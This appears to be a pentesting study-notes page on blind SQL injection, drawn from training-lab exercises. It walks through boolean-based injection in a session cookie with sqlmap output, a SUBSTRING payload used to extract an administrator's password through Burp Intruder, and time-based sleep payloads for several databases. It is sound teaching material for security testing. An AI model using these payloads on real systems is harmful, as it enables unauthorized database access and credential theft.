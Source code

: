 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blind

{% hint style="success" %}
**Blind SQLi** is a type of SQLi where an attacker can execute SQL commands on a database **without seeing the direct results**. Instead, the attacker infers the results indirectly, often by observing changes in the web application's behavior or responses.
{% endhint %}

## Boolean-based

{% hint style="success" %}
**Blind boolean-based SQLi** is a technique where an attacker sends SQL queries that **return `true` or `false`**. The attacker observes the application's response to determine if the query was true or false, allowing them to infer information about the database without seeing the data directly.
{% endhint %}

### Headers

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application generates both a `POST` and a `GET` request. The former includes two parameters (`username` and `password`), but they don't appear to be vulnerable to SQLi. The latter does not contain any parameter, but we can search for other injection points.&#x20;

We are looking for points where the server might potentially process, such as the `User-Agent` and the `Cookie` headers. In this case, the `Cookie` header includes the `session` parameter and its value is certainly processed by the back-end (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_1.png" alt=""><figcaption><p>Figure 1: Inspecting potential SQLi positions.</p></figcaption></figure>

When testing the `session` parameter, we can see that we can alter the response's behavior (`Content-Length` differences) (Figure 2), but we don't get any data within the response like we did while testing the [In Band SQLi](in-band.md#basic-workflow); this is what makes it a Blind SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_2.png" alt=""><figcaption><p>Figure 2: Validating <code>sqlmap</code>'s findings.</p></figcaption></figure>

Passing the request to [`sqlmap`](../../../../tools/web/sqlmap.md), it confirms that the `session` cookie is indeed injectable, therefore, we can continue the testing process as we did in the [In Band](in-band.md#basic-workflow) section.

{% code overflow="wrap" %}
```bash
$ sqlmap -r get_request.txt --batch --dbms=MySQL --level 5 --technique=B --dbms=MySQL
<SNIP>

sqlmap identified the following injection point(s) with a total of 33 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9499=9499-- UfuX
---
[12:37:03] [INFO] testing MySQL
[12:37:03] [INFO] confirming MySQL
[12:37:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 8.0.0
```
{% endcode %}

### Conditional

> _The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._

{% code overflow="wrap" %}
```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```
{% endcode %}

Burp's Active Scan identifies a potential SQLi flaw (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_1.png" alt=""><figcaption><p>Figure 3: Identifying &#x26; validating an SQLi vulnerability.</p></figcaption></figure>

We can send the two responses to Comparer and check what is the differs between them (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_2.png" alt=""><figcaption><p>Figure 4: Using Burp's Comparer to see what differs between the two responses.</p></figcaption></figure>

Now that we know that if our injected statement is `TRUE` we will get a `Welcome back!` message, we can use the `SUBSTRING` function and start enumerating the `administrator`'s password. We can do that efficiently by performing a Cluster bomb attack with Intruder (Figure 5).

{% code overflow="wrap" %}
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_3.png" alt=""><figcaption><p>Figure 5: Performing a Cluster bomb attack with Burp's Intruder.</p></figcaption></figure>

All we need to do now is to filter out the irrevelant responses and sort them by `Payload 1` (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_4.png" alt=""><figcaption><p>Figure 6: Enumerting the <code>administrator</code>'s password.</p></figcaption></figure>

{% hint style="info" %}
For performing the above task with a custom Python-based script, check the [Copy As Python-Requests](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) Burp's extension.
{% endhint %}

## Time-based

{% hint style="success" %}
**Blind time-based SQLi** is a technique where an attacker sends SQL queries that **cause a delay in the database response if the query is `true`**. By measuring the time it takes for the application to respond, the attacker can infer information about the database.
{% endhint %}

> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 7).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_5.png" alt=""><figcaption><p>Figure 7: Successfully injecting a time-based payload.</p></figcaption></figure>

